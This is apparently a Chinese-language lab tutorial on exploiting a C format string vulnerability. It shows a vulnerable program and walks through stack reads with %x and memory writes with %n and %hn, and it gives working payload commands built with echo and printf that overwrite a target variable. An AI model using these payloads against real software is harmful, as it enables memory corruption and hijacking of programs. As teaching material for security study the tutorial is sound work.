








# 攻击格式化字符串漏洞

漏洞程序：
```c
#include <stdio.h>

void fmtstr()
{
    char input[100];
    int var = 0x11223344;
    
    printf("Target address: %x\n", (unsigned) &var);
    printf("Data at target address: 0x%x\n", var);
    
    printf("Please enter a string: ");
    fgets(input, sizeof(input)-1, stdin);
    printf(input);
    printf("Data at target address: 0x%x\n", var);
}

void main()
{
    fmtstr();
}
```

## 攻击一：使程序崩溃



!!! printf函数原理

    解析格式化字符串，当遇到一个%s，便从va_list指向的位置获取一个值，并移动va_list到下一个位置。
    由于格式规定符是%s，printf()函数把获取到的值视为一个地址，并打印该地址处的字符串


漏洞程序栈如图，输入%s多了，就会使printf函数的va_list指针移动到printf函数栈帧之上的位置。

正常程序的栈帧如下图：  


## 攻击二：输出栈中的数据

比如要打印var的值，printf函数遇到%x时，打印出va_list指针指向的数，并将va_list推进4个字节

可知第五个输出是var的值

## 攻击三：修改内存中的程序数据

!!! printf函数中输入格式规定符

    printf函数的所有格式规定符都输出数据，唯有一个例外，就是%n，会打印目前已打印出的字符的
    个数写入内存。  
    printf("hello%n", &i)会打印hello，同时把5保存到变量i

由于目标地址是0xbffff694，构造如下命令，把输入保存在文件中
```bash
echo $(printf "\x94\xf6\xff\xbf").%x.%x.%x.%x.%x.%n > input
```

!!! warning

    为啥不能直接输入这个二进制数，而用文件输入的方式

!!! Bash命令

    $(command)的目的在于进行指令替换，用指令的结果来代替指令本身。数字之前放\x表示把94视为
    一个数字，由于是小端序，低字节放在低地址。
    
把目标地址放在栈中之后，接下来要做的就是把va_list指针移动到这个数值所在的地址，然后使用%n。
这样问题就在于需要多少个%x格式规定符，可以用试错法得知需要5个。

可见值被修改成0x1e

## 攻击四：修改程序数据为指定值

比如把var的值修改为0x66887799，如果用%n方法，需要printf函数输出0x66887799个字符（超过17亿），
通过调整精度和宽度可以达到这个目的。

!!! 精度和宽度

    精度：printf("%.5d", 10), 最少打印5位，不够前面补0，这个结果是00010  
    宽度：printf("%5d", 10)，整数位数最少5位，不够补空格，这个结果是三个空格加10

可以通过试错方法达到目的，比如
```bash
echo $(printf "\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.10000000x%n > input
./vul < input
```
大概7秒打印出如下结果：

为了实现目标值，需要去凑，大概需要打印一个小时

## 攻击四续： 更快的方法

!!! 格式符长度修饰符

    %n: 视参数为4字节整型数  
    %hn: 视参数为2字节短整型数  
    %hhn: 视参数为1字节字符型数  
    
```c
#include <stdio.h>

void main()
{
    int a, b, c;
    a = b = c = 0x11223344;
    
    printf("12345%n\n", &a);
    printf("The value of a: 0x%x\n", a);
    printf("12345%hn\n", &b);
    printf("The value of b: 0x%x\n", b);
    printf("12345%hhn\n", &c);
    printf("The value of c: 0x%x\n", c);
}
```



下面把var值修改成0x66887799，把var变量分为两个部分，每个部分两个字节，低端两字节地址是0xbffff694，
需要改成0x7799；高端两字节地址是0xbffff696，需要被改成0x6688。用%hn格式规定符来修改这两处内存

构建字符串：
```bash
echo $(printf "\x96\xf6\xff\xbf@@@@\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
./vul < input
```


@@@@用来分隔两个地址  
精度修饰符设置为%.8x，使每个整型数被打印为8位数，加上之前打印的12个字符，printf函数已经打印了12 + 4*8 = 44个
字符，为了达到0x6688，就是十进制数26248，就是还差26204个字符。  
完成第一个地址内存修改后，如果立即使用%hn修改第二个地址内存，相同的值会被写入第二个地址，因此需要更多字符以增加到
0x7799，这就是为什么要在两个地址之间放入4个字节（@@@@）精度4369 = 0x7799 - 0x6688